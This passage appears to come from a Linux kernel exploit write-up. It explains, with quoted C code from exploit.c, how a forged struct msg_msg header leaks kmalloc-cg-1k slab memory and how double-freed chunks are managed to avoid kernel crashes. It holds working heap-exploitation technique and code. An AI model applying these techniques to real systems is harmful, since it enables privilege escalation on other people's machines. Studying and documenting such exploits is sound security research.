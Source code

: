 We set the header of `struct msg_msg` to leak `kmalloc-cg-1k` slab content as follows.
- `m_list.next` will be overwritten to `NULL` by the `next` fields of `struct msg_msgseg`.
- `m_list.prev` can be arbitrary values since it doesn't access by any routines unless the `struct msg_msg` is unlinked. Thus, we set it to `NULL`. 
- `m_type` also can be an arbitrary value. We set it to `2`.
- `m_ts` is set by 0x1100, which is enough size to read `struct msg_msgseg` through overwritten `next` field.
- `next` field is set by `leaked kmalloc-cg-1k chunk's address` + `chunk_size` - `sizeof(struct msg_msg)`. This is for totally controlling the `kmalloc-cg-1k` chunk located below by unaligned free and unaligned `struct msg_msg` techniques. Details will be explained later.
- `security` fields are unused for this steps. It is implicitly set to `NULL`.

The `struct msg_msgseg` that contains a fake `struct msg_msg` header is allocated through `msgqid3` and overwrites the `struct msg_msg` object.

- [exploit/extra-refined/exploit.c#L888](../exploit/extra-refined/exploit.c#L888)
```c
// we have leak now
// populate the lk-sized cg cache to prevent crash
for (size_t i = 20; i < MSG_MSG_SPRAY_CNT; i++)
{
	memset(msg_buf, 0, sizeof(msg_buf));
	ret = msgrcv(msgqids2[i], msg, sizeof(msg_buf), 2, IPC_NOWAIT);
	if (ret < 0)
		err(1, "msgrcv");
}
```
However, by the reclaimed double-freed chunks, the percpu freelist of `kmalloc-cg-512` cache is now corrupted, and the kernel may crash if the exploit or other tasks tries to allocate on `kmalloc-cg-512` caches. To prevent this, we freed the 512-sized `struct msg_msg` objects which are allocated in the [Heap grooming step](#63-heap-grooming). This creates enough chunks on the corresponding slab cache and prevents kernel crashes during and after the exploit, even when the allocation occurs on that cache. For more details, please refer [Abusing `CONFIG_SLAB_FREELIST_HARDENED` mitigation to aid exploitation section of novel-techniques.md](./novel-techniques.md#abusing-config_slab_freelist_hardened-mitigation-to-aid-exploitation).

- [exploit/extra-refined/exploit.c#L898](../exploit/extra-refined/exploit.c#L898)
```c
int upper_msg_msg_holder = -1;
int lower_msg_msg_holder = -1;
memset(msg_buf, 0, sizeof(msg_buf));
ret = msgrcv(msgqids1[0], msg, sizeof(msg_buf), 0, IPC_NOWAIT | MSG_COPY);
if (ret < 0)
	perror("msgrcv");
printf("[*] overlapped by msg_msgseg again : size %d\n", ret);
payload = (uintptr_t *)msg->mtext;
// for(size_t i = 0; i < ret / 8; i ++){
//     printf("%d : 0x%llx\n", i, payload[i]);
// }
if (payload[510] && payload[510] < MSG_MSG_SPRAY_CNT)
{
	upper_msg_msg_holder = msgqids2[payload[510]];
	printf("[*] 1k-sized upper msg_msg is holded by %dth msgq (msgq %d)\n", payload[510], upper_msg_msg_holder);
	// remove from spray list
	msgqids2[payload[510]] = -1;
}
if (payload[518] && payload[518] < MSG_MSG_SPRAY_CNT)
{
	lower_msg_msg_holder = msgqids2[payload[518]];
	printf("[*] 1k-sized lower msg_msg is holded by %dth msgq (msgq %d)\n", payload[518], lower_msg_msg_holder);
	// remove from spray list
	msgqids2[payload[518]] = -1;
}
```